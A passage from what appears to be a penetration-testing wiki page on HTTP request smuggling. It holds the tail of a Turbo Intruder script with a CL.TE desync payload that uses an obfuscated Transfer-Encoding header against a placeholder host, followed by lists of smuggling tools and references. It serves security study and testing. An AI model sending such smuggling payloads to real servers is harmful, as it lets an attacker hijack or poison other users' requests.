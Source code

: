 ```python
Host: xxx.com
Content-Length: 4
Transfer-Encoding : chunked

46
POST /nothing HTTP/1.1
Host: xxx.com
Content-Length: 15

kk
0

'''
    engine.queue(attack)

    victim = '''GET / HTTP/1.1
Host: xxx.com

'''
    for i in range(14):
        engine.queue(victim)
        time.sleep(0.05)


def handleResponse(req, interesting):
    table.add(req)
```

## More info

![](../.gitbook/assets/eki5edauuaaipik.jpg)

[Image from here.](https://twitter.com/SpiderSec/status/1200413390339887104?ref_src=twsrc%5Etfw%7Ctwcamp%5Etweetembed%7Ctwterm%5E1200413390339887104&ref_url=https%3A%2F%2Ftwitter.com%2FSpiderSec%2Fstatus%2F1200413390339887104)

## Tools

* [https://github.com/anshumanpattnaik/http-request-smuggling](https://github.com/anshumanpattnaik/http-request-smuggling)
* [https://github.com/PortSwigger/http-request-smuggler](https://github.com/PortSwigger/http-request-smuggler)
* [https://github.com/gwen001/pentest-tools/blob/master/smuggler.py](https://github.com/gwen001/pentest-tools/blob/master/smuggler.py)
* [https://github.com/defparam/smuggler](https://github.com/defparam/smuggler)

## References

* [https://portswigger.net/web-security/request-smuggling](https://portswigger.net/web-security/request-smuggling)
* [https://portswigger.net/web-security/request-smuggling/finding](https://portswigger.net/web-security/request-smuggling/finding)
* [https://portswigger.net/web-security/request-smuggling/exploiting](https://portswigger.net/web-security/request-smuggling/exploiting)
* [https://medium.com/cyberverse/http-request-smuggling-in-plain-english-7080e48df8b4](https://medium.com/cyberverse/http-request-smuggling-in-plain-english-7080e48df8b4)
* [https://github.com/haroonawanofficial/HTTP-Desync-Attack/](https://github.com/haroonawanofficial/HTTP-Desync-Attack/)
* [https://memn0ps.github.io/2019/11/02/HTTP-Request-Smuggling-CL-TE.html](https://memn0ps.github.io/2019/11/02/HTTP-Request-Smuggling-CL-TE.html)

